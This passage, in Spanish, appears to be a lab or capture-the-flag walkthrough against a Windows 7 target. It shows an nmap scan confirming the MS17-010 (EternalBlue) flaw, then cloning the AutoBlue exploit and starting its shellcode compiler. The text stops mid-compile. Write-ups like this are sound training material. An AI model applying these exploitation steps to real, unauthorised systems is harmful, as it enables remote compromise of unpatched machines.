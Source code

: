 Observamos que se encuentra abierto el puerto 445 asociado al servicio de SMB; por lo que podríamos tirar un escaneo *"vuln and safe"* sobre `nmap` para determinar si puede ser vulnerable al **Eternal Blue**:

```bash
❯ nmap --script "vuln and safe" -p445 10.10.10.40 -oN smbScan
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-16 21:46 CDT
Nmap scan report for 10.10.10.40
Host is up (0.14s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 4.46 seconds
```

De acuerdo con los resultados observados, vemos que es vulnerable al **ms17-010** y además sabemos que la máquina tiene *Windows 7 Professional 7601 Service Pack 1*; entonces ya sabemos que descargamos el exploit correspondiente.

[AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

```bash
❯ git clone https://github.com/3ndG4me/AutoBlue-MS17-010
Clonando en 'AutoBlue-MS17-010'...
remote: Enumerating objects: 126, done.
remote: Counting objects: 100% (50/50), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 126 (delta 40), reused 35 (delta 35), pack-reused 76
Recibiendo objetos: 100% (126/126), 94.22 KiB | 1015.00 KiB/s, listo.
Resolviendo deltas: 100% (74/74), listo.
```

Una vez descargado, ingresamos a la ruta `AutoBlue-MS17-010/shellcode` para generar el shellcode correspondiente mediante la ejecucion del archivo `shell_prep.sh` e ingresamos los datos que nos va solicitando:

```bash
❯ ./shell_prep.sh         
                 _.-;;-._ 
          '-..-'|   ||   |
          '-..-'|_.-;;-._|   
          '-..-'|   ||   |                                      
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz
                                
Compiling x64 kernel shellcode                                                                                                   
```